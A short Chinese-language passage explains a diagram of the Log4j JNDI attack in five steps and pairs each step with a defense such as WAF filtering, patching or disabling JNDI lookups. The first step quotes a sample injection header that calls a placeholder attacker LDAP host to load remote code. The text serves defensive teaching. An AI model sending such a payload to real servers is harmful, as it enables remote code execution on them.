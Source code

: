 ![log4j2_4](../img/lihan3238_doc/log4j2_4.png)

这张图表展示了Log4j JNDI攻击的原理和防御方法：
1. **攻击者发起请求**
攻击者在 HTTP 请求的头字段（例如 User-Agent）中插入一个包含 JNDI 查找的字符例：`User-Agent: ${jndi:ldap://evil.xa/x}`
*防御措施：使用 WAF（Web应用防火墙）拦截此类恶意请求。*

2. **易受攻击的服务器接收请求**
易受攻击的服务器接收到请求，并将包含 JNDI 查找的字符串传递给 Log4j 进行日志记录。
*防御措施：禁用 Log4j 或更新 Log4j 到修复版本。*

3. **Log4j 处理请求**
log4j 解释该字符串，并尝试查询恶意的 LDAP 服务器以获取更多信息。
*防御措施：禁用JNDI查找功能。*

4. **查询恶意 LDAP 服务器**
Log4j 向恶意 LDAP 服务器发送查询请求，获取恶意的 Java 类。
*防御措施：确保 LDAP 查询指向可信的内部服务器或禁用远程代码库。*

5. **Java 反序列化恶意代码**
恶意 LDAP 服务器响应目录信息，包含恶意 Java 类的位置。Java 反序列化该类并执行其中的恶意代码。
*防御措施：禁用远程代码库功能，确保反序列化过程的安全。*

具体防护措施：
